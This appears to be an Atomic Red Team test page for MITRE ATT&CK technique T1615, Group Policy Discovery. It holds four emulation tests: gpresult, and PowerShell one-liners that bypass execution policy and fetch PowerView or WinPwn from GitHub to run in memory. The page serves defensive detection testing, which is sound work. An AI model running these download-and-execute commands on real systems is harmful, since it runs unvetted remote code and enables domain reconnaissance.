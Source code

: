 # T1615 - Group Policy Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)
<blockquote>Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predicable network path <code>\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\</code>.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)

- [Atomic Test #3 - WinPwn - GPOAudit](#atomic-test-3---winpwn---gpoaudit)

- [Atomic Test #4 - WinPwn - GPORemoteAccessPolicy](#atomic-test-4---winpwn---gporemoteaccesspolicy)


<br/>

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
